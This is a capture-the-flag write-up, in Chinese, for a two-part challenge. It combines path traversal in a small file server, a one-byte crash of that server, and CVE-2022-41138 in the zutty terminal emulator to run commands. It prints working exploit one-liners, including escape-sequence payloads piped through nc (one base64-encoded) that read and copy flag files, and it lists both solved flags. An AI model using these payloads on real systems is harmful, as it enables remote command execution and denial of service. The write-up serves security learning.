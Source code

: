 本题的小题名称很有趣，第一题叫 "只要不停下 HTTP 服务，响应就会不断延伸", 第二题叫 "希望的终端模拟器，连接着我们的羁绊"

前者有点误导性，其实并不是让这个单线程的web程序一直出响应，导致 DoS 攻击，而是应该把它 crash 掉。后者算是一种提示，因为确实是终端模拟器的漏洞。

本地跑了一下，可能是本地和远程的环境不同，本地 `curl --path-as-is 127.0.0.1//flag2` 是可以任意文件读取的，因为代码中只去掉了第一个 `/` .

> 后来发现是远程chroot了，实际上任意文件读取还是存在的。

远程使用的终端模拟器是 zutty ,查到 [CVE-2022-41138](https://nvd.nist.gov/vuln/detail/CVE-2022-41138)

参考了这些文章来构建 exploit 

- [(CVE-2022-41138) - <x11-terms/zutty-0.13: arbitrary code execution via DECRQSS (like CVE-2008-2383)](https://bugs.gentoo.org/868495) 
- ["\[31m"?! ANSI Terminal security in 2023 and finding 10 CVEs](https://dgl.cx/2023/09/ansi-terminal-security#vulnerabilities-using-known-replies)

```bash
#!/bin/sh
printf '\r\eZ\eC\eP$q\rcat /flag*\r\eP$q\e\\' | nc 127.0.0.1 8000
```

把 fileserver kill 掉之后 可以成功触发 zutty 权限下的命令执行，~~可惜没能 crash 掉 fileserver~~.

在经过多次尝试之后，经过一段 python 爆破, fileserver 被一个 byte 给 crash 了😇笑死

![terminal.webp][5]

```bash
printf "GET \x80" | nc 127.0.0.1 8000 # 不知为何这样远程行不通，只能base64
echo R0VUIIA= | base64 -d | nc 127.0.0.1 8000
```

现在问题来了：尽管我们可以命令执行，但是在chroot里，怎么办呢？

exit也不管用，因为后续命令都会被忽略。只能想办法逃逸了。
看了眼chroot环境里甚至没有shell，只能用 python 写了：

写好了才想起来，不对呀，fileserver crash 之后就是在chroot外面了...

所以直接打就好啦：

```bash
#!/bin/sh
echo DRtaG0MbUCRxDWNobW9kIDc3NyAvZmxhZyo7Y2F0IC9mbGFnKj4vdG1wL3F3cTsNG1AkcRtc| base64 -d | nc 127.0.0.1 8000
printf "GET \x80" | nc 127.0.0.1 8000
echo R0VUIIA= | base64 -d | nc 127.0.0.1 8000
cat /flag*
ls -al /flag*
ls -al /
ls -al /tmp
cat /tmp/qwq
```

因为 / 不可写，就把 flag 复制到 /tmp 去了。

`flag{wa1t_no0O0oooO_mY_b1azIngfA5t_raust_f11r5erVer_0213c96566} flag{xterm_&_DECRQSS_in_2008_0NcE_morE_b6d3273318}`


  [1]: ./assets//4046521366.webp
  [2]: ./assets//281655009.webp
  [3]: ./assets//4046521366.webp
  [4]: ./assets//1500912061.webp
  [5]: ./assets//3096051582.webp
  [6]: ./assets//557543131.webp